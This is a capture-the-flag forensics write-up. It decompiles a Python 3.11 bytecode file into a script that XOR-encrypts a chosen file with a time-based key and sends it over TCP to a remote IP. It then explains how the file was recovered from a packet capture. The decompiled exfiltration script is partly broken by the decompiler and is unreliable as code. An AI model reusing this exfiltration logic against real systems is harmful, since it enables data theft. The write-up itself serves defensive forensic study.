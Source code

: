The file `download.pyc` is a compiled python bytecode file. I used [`pycdc`](https://github.com/zrax/pycdc) to decompile the file and got the following python code.

#### download.py (decompiled from download.pyc)
```python
# Source Generated with Decompyle++
# File: download.pyc (Python 3.11)

import sys
import socket
import time
import math
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
file = sys.argv[1]
ip = sys.argv[2]
port = 22993
with open(file, 'rb') as r:
    data_bytes = r.read()
    None(None, None)
with None:
    with None:
        if not None:
            pass
current_time = time.time()
current_time = math.floor(current_time)
key_bytes = str(current_time).encode('utf-8')
init_key_len = len(key_bytes)
data_bytes_len = len(data_bytes)
temp1 = data_bytes_len // init_key_len
temp2 = data_bytes_len % init_key_len
key_bytes *= temp1
key_bytes += key_bytes[:temp2]
encrypt_bytes = (lambda .0: pass# WARNING: Decompyle incomplete
)(zip(key_bytes, data_bytes)())
s.connect((ip, port))
s.send(encrypt_bytes)
```

The python bytecode was for `python 3.11` and many of the decompilers don't have reliable support above `python 3.9`. We have to infer based on the partial decompilation we got.

### Solution
The `download.py` script reads a file and sends it to a remote server. The file is encrypted using a key generated from the current time. The file is then encrypted by XORing the key and the file data. The encrypted file is then sent to the remote server.
So, the next TCP stream (stream 30) in the pcap file should contain the encrypted file. We can extract the file and decrypt it using the same key to get the original file. The key can be recovered by timestamp of the packet in the pcap file. I used [CyberChef](https://gchq.github.io/CyberChef/) to decrypt the file. The decrypted file is an image with flag.

### Flag